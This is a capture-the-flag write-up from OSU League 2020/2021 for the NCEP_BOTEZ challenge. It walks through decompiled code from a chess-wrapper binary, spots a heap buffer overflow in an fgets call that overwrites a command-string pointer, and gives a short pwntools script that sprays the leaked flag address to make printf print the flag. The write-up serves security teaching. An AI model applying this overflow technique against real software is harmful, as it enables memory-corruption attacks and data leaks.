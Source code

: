 ```yaml
---
title: "OSU League 2020/2021 - NCEP_BOTEZ Writeup"
date: 2021-04-11
tags:
  - osuleague
  - ctf
  - security
---
```


For this challenge, we are given a binary that is very similar looking to the one from NCEP_XQC. 
Running the program there is that same GNU chess game that we can interact with, but this time we have no control over the command line arguments, so no injection. Messing around with the program we can see that the only place we have any sort of control is when we make our move:

```
flag loaded at 0x562c0e2e8260
executing command: /usr/games/gnuchess -g -m
GNU Chess 6.2.5
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
White (1) : 
```

We are also given the location in memory of where the flag is loaded in at, which gives us a clue that whatever our payload is going to be must include it. At this point we started to do some static analysis to see where we could exploit something.

Since there is only one place in the program where we can put in user input, we started our reverse engineering there:

```c++
void get_input(long param_1)

{
  memset((void *)(param_1 + 0x110),0,0x100);
  fgets((char *)(param_1 + 0x110),0x500,stdin);
  return;
}
```

Interseting, it looks like we do an `fgets` to `param_1` plus an offset, but `param_1` is a variable that was passed into this function, so we followed that parameter up to see where it came from. Eventually, we were led to the main function of the program where we can see where it was initilized:

```c++
undefined8 main(void)

{
  void *__ptr;
  void *__ptr_00;
  
  __ptr = (void *)load_flag();
  __ptr_00 = malloc(0x21c);
  init_game(__ptr_00);
  printf("executing command: %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  launch_gnuchess(__ptr_00);
  thread_handler(__ptr_00);
  printf("finished executing command %s\n",*(undefined8 *)((long)__ptr_00 + 0x210));
  free(__ptr_00);
  free(__ptr);
  return 0;
}
```

So now we know that `void *__ptr_00` is our `param_1`, but what is interesting here is how much it is being reused. We can see that it is used in the first `printf` to print the command that was excecuted, but then it gets passed into the `thread_handler` function, which is what eventually leads to our `fgets` being called. So the same pointer holding the string of our command is also being used for the `fgets`. This normally wouldn't be a problem since a null terminator is used to mark the end of a string, but here we see that quite a large buffer was used to allocate this particular char array. Maybe if we fill up that buffer and put the address of our flag in the string, we can make the second `printf` print the flag. Let's try it out:

```python
from pwn import *
import os, sys

io = remote('ctf.ropcity.com', 31315)

io.recvuntil("flag loaded at ")
addr = int(io.recvline(), 16)

flag = p64(addr)

io.recvuntil("White (1) : ")

payload = flag*100

io.sendline(payload)
io.interactive()
```

And running it we get the flag: 
`osu{ro$eN_w1LL_not_8e_th1$_4givinG}`
